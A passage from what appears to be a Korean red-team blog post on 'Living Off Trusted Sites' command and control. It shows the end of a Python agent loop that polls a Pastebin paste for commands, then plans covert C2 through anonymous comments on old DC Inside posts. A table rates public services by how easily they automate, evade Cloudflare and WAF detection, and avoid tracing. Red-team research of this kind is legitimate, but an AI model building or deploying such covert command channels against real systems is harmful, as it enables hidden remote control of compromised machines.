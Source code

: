 ```python
        time.sleep(30)  # 30초마다 명령 체크

# Pastebin Paste 키 (raw URL 기준)
PASTEBIN_KEY = "JWX63SrU"  # ← 실제 pastebin 주소, 테스트를 위해 whoami를 넣어뒀고 1년 뒤 삭제될 예정이다.

# 실행
lots_agent_loop(PASTEBIN_KEY)
```

실제로 실행시켜보면

![실행](https://github.com/user-attachments/assets/e45d4a70-6fe8-40ca-9cdb-4931e098fd74)

이런 식으로 결과가 나온다는 것을 알 수 있다. 만 말이지.. 이렇게 하면 명령어를 한번 만 받을 수 있게 되기에 다른 방법을 좀 더 찾아보는 것도 좋겠다는 생각이 든다. 특히 생각하기론 [레드팀 플레이북](https://www.xn--hy1b43d247a.com/initial-access/living-off-trusted-sites)에 나온 것 처럼 디시 인사이드와 같이 댓글을 비회원으로 달 수 있는 곳, 게다가 옛날 글 중 이미 회원 탈퇴한 사람의 글에 댓글을 달고 `LOTS`에서는 그 글을 계속 주시하고 있다가 명령어가 들어오면 딱 읽어서 실행하는 식으로 하면 좋을 것 같다.

근데 디시를 안 써봐서 잘 모르겠는데 봇이 접속하면 막는 방안이 되어있다면 고건 또 우회하면 되는 것이니 좋은 방법이라고 생각된다.

뭐... 누군가 갑자기 거기에 댓글을 달면 그건 어쩔 수 없는 일이겠지만, 과연 누가 5년전 글에 갑자기 와서 댓글을 달까? 싶기도 하고..

## 코드 예시 (python, 디시 인사이트 예시)

요건 좀 더 생각을 해보기도 해야겠고, 문제가 될듯 싶어 올리지 않는다. 그리고 솔직히 할려면 누구나 할 수 있을테니 말이다. 아니 근데 다른 사이트들은 다 비회원 댓글달기가 막혀있는데 여긴 가능하네? 되게 신기한 사이트다.

## LOTS에 적합한 사이트 조건

| 평가 기준 | 설명 |
| ---------------- | ----------------------------------------- |
| **자동화 용이성** | API or 단순 HTML 구조로 자동 요청이 쉬운가? (봇 작성 가능성) |
| **계정 여부** | 비회원 작성·열람이 가능한가? |
| **보안 우회성** | 웹방화벽(WAF), Cloudflare 등 탐지를 피하기 쉬운가? |
| **악용 시 리스크** | 공격자 추적 가능성 (IP, 계정 등 남는가?) |
| **명령/응답 전달 용이성** | 텍스트 전송, 수신이 간편한가? (Webhook, raw URL 등) |

## LOTS 활용 가능 서비스 정리표

| 사이트 | 자동화 용이성 | 계정 필요 여부 | 보안 우회성 (탐지/Cloudflare) | 악용 시 리스크 | LOTS 적합성  | 비고 |
| --------------------- | ------- | ------------------ | --------------------------- | ---------------- | --------- | ----------------- |
| **Pastebin** | ✅ 매우 쉬움 | ❌ 일부 기능만 무계정 사용 가능 | ✅ 보안 우회 가능 | ⚠️ Raw URL 기록 남음 | 🔵 매우 적합  | 단방향 명령 전달용 |
| **Discord (Webhook)** | ✅ 매우 쉬움 | ❌ Webhook만 있으면 가능 | ⚠️ 탐지 가능 (Rate Limit, 봇 보안) | ⚠️ IP 추적 가능 | 🟠 부분 적합  | 결과 전달에는 적합 |
| **Slack (Webhook)** | ✅ 쉬움 | ❌ Webhook 있으면 가능   | ⚠️ API Rate Limit 있음 | ⚠️ 기업 로깅 존재 | 🟠 부분 적합  | 내부망 침투 시 사용됨 |
| **Google Sheets** | ⚠️ 중간   | ✅ 필요함 | ❌ Cloudflare + 로그인 필요 | ⚠️ Google 로깅 | 🔴 부적합 | 자동화 어려움 |
| **DC Inside** | ✅ 쉬움 | ✅ 선택적 (비회원 가능) | ✅ 클라우드플레어 없음 | ✅ 로그 적음(ip 남긴 하는데 vpn쓰면 되니까 뭐..) | 🟢 매우 적합 | **댓글 기반 LOTS** 가능 |
| **아카라이브** | ❌ 어려움 | ✅ 필요함 | ❌ Cloudflare 우회 어려움 | ✅ 로그 적음 | 🔴 부적합 | 자동화 불가 수준 |
| **코네 (koner.kr)** | ❌ 어려움 | ✅ 필요함 | ❌ Cloudflare 보호 | ✅ 로그 적음 | 🔴 부적합 | 자동 요청 막힘 |
| **Tistory/Notion** | ⚠️ 중간 | ✅ 필요함 | ⚠️ 봇 탐지 존재 (쿠키 확인 등) | ⚠️ 사용자 추적 가능 | 🟡 조건부 가능 | 로그인 필요 |
| **Telegram Bot** | ✅ 매우 쉬움 | ✅ 필요 | ✅ 보안 우회 가능 | ⚠️ 봇 등록 필요 | 🟢 적합 | 쌍방향 통신에 유용 |

일단 내가 조사해 보았을 때에는 이정도 찾아보았고, 여기서 생각해 본 것이 만약 디시인사이드를 사용하게 되면 완전 옛날 글을 찾아가고 사용자가 탈퇴한 글을 찾아 댓글을 달면 더 숨을 수 있겠다고 생각한다. 일단은 레드팀 입장에서 생각해보자면 말이다. 게다가 만약에 글이 삭제되었다고 하면 백업을 위해 추가적인 글들을 코드에 하드코딩하여 적어놓으면 더 좋은 방법일 것이라 생각한다.